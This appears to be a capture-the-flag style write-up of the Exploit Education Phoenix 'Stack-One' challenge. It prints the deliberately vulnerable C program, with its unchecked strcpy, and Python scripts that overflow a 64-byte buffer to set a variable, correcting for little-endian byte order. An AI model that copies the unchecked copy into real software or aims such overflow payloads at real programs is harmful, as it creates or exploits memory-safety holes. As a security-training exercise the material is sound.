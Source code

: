 ```yaml
---
title: Exploit Education > Phoenix > Stack-One
date: '2021-09-25'
draft: false
--- 
```


Stack-One is an ASCII challenge. It's described by the following C code:

```
/*
 * phoenix/stack-one, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x496c5962
 *
 * Did you hear about the kid napping at the local school?
 * It's okay, they woke up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  if (argc < 2) {
    errx(1, "specify an argument, to be copied into the \"buffer\"");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, argv[1]);

  if (locals.changeme == 0x496c5962) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Getting closer! changeme is currently 0x%08x, we want 0x496c5962\n",
        locals.changeme);
  }

  exit(0);
}
```

When looking at the code, the following line catches the eye immediately:

```
strcpy(locals.buffer, argv[1]);
```

Our `main` function uses `strcpy` without validating our inputs size first! If we look at our `locals` struct (of which `buffer` is strcpy's destination), we can see that it also contains the volatile `changeme` variable.

```
struct {
    char buffer[64];
    volatile int changeme;
  } locals;
```

The goal of this challenge is to change `changeme` to `0x496c5962`. The solution to this exercise is similar to the one we used for `Stack-Zero`: We write 64 characters into `argv` at the start of the program and `0x496c5962` after that. We want to write the actual number `0x496c5962` into `changeme`, but our terminal only provides us the with possibility to enter characters. One solution for this is to convert `0x496c5962` into an ASCII string. Most ASCII characters fall into a range between 0 and 255, a.k.a 2 to the power of 8 possible characters, one one byte. Since a single hex digit stores 4 bit of information, we split `0x496c5962` into two packets for out character candidates we want to pipe into `stack-one` (after the padding). This leaves us with `0x49` `0x6c` `0x59` and `0x62`. Translate that into human readable ASCII characters and you get `IlYb`. 

Now we now that to solve this challenge, we need to pipe 64 characters into `argv` to pad the buffer into overflowing and `IlYb` to set `changeme` to `0x496c5962`. To do this in a more simpler way, we can yet again use python four our needs: 

``` 
# stack-one.py

padding = '0' * 64
changeme = 'IlYb'

print(padding + changeme)
```

Note that in python, instead of converting a known string of numbers to ASCII characters, we could just print bytes instead!

``` 
# stack-one.py

padding = '0' * 64
changeme = '\x49\x6c\x59\x62'

print(padding + changeme)
```

Calling `./stack-one $(python3 stack-one.py)` should print the message `Well done, you have successfully set changeme to the correct value` for us.

```
> ./stack-one $(python3 stack-one.py) 

> Getting closer! changeme is currently 0x62596c49, we want 0x496c5962
```

Huh. Seems like we did indeed change `changeme`, but it's value is *reversed*. To understand what's actually going on here, we have too take yet another look at `Stack-One`'s description:

*Having troubles? How does the endianness of the architecture affect the layout of how variables are laid out?*

Since we are on an x86 linux system, we know that we're using `little-endian`. The following image explains the difference in storage layout:

![Endianness](/assets/Endianness.png)

Values in `little-endian` seem to be *reversed* compared to how a human would naturally read them. To spare programmers the pain of having to write values reversed if their host system is little endian, compilers automatically look up if their system is little endian and emit any value in the approriate format. If we changed `changeme` to `0x496c5962` *inside* `stack-zero-c` and compiled it via `gcc`, our compiler would write it as `0x62596c49` *in memory*, pointing to its "end" `0x49` as the first value. 

Our mistake immediately becomes clear: We naturally write our target value 0x496c5962 from left to right into `stack-one`'s arguments. When its `main` function stores the `argv[1]` value in `locals.buffer`, causing a buffer overflow, it writes `0x496c5962` into `changeme`'s memory location *without any compiler intervention*. In memory, `changeme` reads `0x496c5962` but is read from right to left because our system is little-endian. To correct for this, we just have to reverse `0x496c5962` so it fits inside memory in the correct way.

This can be achieved by changing our little python snippet accordingly:
``` 
# stack-one.py

padding = '0' * 64;
changeme = 'IlYb'[::-1] #reverse this

print(padding + changeme)
```

Using our newly adjusted script, we can see that we successfully solved this challenge!

```
> ./stack-one $(python3 stack-one.py) 

> Well done, you have successfully set changeme to the correct value
```